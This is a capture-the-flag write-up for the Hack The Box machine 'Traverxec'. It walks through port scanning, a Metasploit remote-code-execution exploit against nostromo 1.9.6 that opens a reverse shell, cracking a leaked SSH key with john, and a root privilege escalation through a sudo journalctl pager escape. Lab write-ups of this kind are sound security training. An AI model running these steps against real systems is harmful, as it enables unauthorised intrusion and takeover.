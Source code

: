 ```yaml
---
date: 2020-04-23
title: "HTB ~ Traverxec"
description: Today we will be doing Traverxec from Hack The Box. The box was rated easy and good for beginners to practice pentesting skills.
published: true
---
```

<br>
<center>
<img src='assets/traverxec/traverxec.jpg'>
</center>

Today we will be doing Traverxec from Hack The Box. The box was rated easy and good for beginners to practice pentesting skills. The box had an IP address 10.10.10.165. For the initial foothold we had to exploit a webserver that was vulnerable to remote code execution and get a reverse shell back in our machine. For root the user David had privilege to execute journalctl as root we leveraged that to get root in the box. With that said let’s jump in.<br><br>

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```
m1m3@kali:~/Documents/htb/traverxec$ nmap -sC -sV -oA nmap/traverxec 10.10.10.165
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-25 04:02 IST
Nmap scan report for 10.10.10.165
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```

We see that the port 80 is open an it is running `nostromo 1.9.6`. Looking at the port 80, we have a static website with nothing useful.

<br><br>

## Initial Foothold:
Now lets look on searchsploit if we have a vulnerable version of nostromo

```
m1m3@kali:~/Documents/htb/traverxec$ searchsploit nostromo
--------------------------------------------------------- ----------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/)
--------------------------------------------------------- ----------------------------------------
Nostromo - Directory Traversal Remote Command Execution  | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                   | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Comma | exploits/linux/remote/35466.sh
--------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

We have RCE available. Lets use the metasploit for it.

```
msf5 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.115:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.115:4444 -> 10.10.10.165:49476) at 2020-03-25 04:18:35 +0530
```


We get a TCP reverse shell which we can turn into a pty shell using:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

If we type `id` we get the user of the shell:

```
www-data@traverxec:/usr/bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
<br><br>

## User Shell:

With some enumeration we can find the nostromo config file at `/var/nostromo/conf` which reveals a public home directory.

```
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf

# HOMEDIRS [OPTIONAL]

homedirs          /home
homedirs_public   public_www
```

Based on the config file, I am guessing that david is going to have a sub directory named public_www, so let’s see if we can get a directory listing of /home/david/public_www

```
www-data​ @traverxec​ :/var/nostromo/htdocs​ $ ​ ls /home/david/public_www -lah
ls /home/david/public_www -lah
total ​ 16​ K
drwxr-xr-x ​ 3 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 15​ : ​ 45​ .
drwx--x--x ​ 5 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ ..
-rw-r--r-- ​ 1 ​ david david ​ 402​   Oct ​ 25​ ​ 15​ : ​ 45​ index.html
drwxr-xr-x ​ 2 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ protected-file-area
```

After looking inside the `protected-file-area` I found a `backup-ssh-identity-files.tgz`. After copying it to my machine, I found the private ssh key for David. We can now use john to crack the key and ssh into the box.

```
m1m3@kali:~/Documents/htb/traverxec$ /usr/share/john/ssh2john.py id_rsa > id_rsa.txt
m1m3@kali:~/Documents/htb/traverxec$ john id_rsa.txt

Press 'q' ​ or​ Ctrl-C ​ to​ abort, almost any other key for status
hunter      (david)
Session completed
```

Hurray! We found the key for David. Now lets ssh into the box and grab the user flag.

```
m1m3@kali:~/Documents/htb/traverxec$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)

david@traverxec:~$ wc -c user.txt
33 user.txt
```
<br><br>

## Root Shell:

The first thing I noticed when I got the user when doing privilege escalation is there is a bin directory inside David’s home directory it has a file called server-stats.sh. 

```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Last line of the script tells us that david can run `/usr/bin/journalctl` with sudo. So I searched in [GTFO bin’s](https://gtfobins.github.io/gtfobins/journalctl/) and exploited the less prompt that opens up as sudo using `!/bin/bash`.

```
david@traverxec:/dev/shm$ ./server-stats.sh
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 root.txt
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Hack The Box writeups!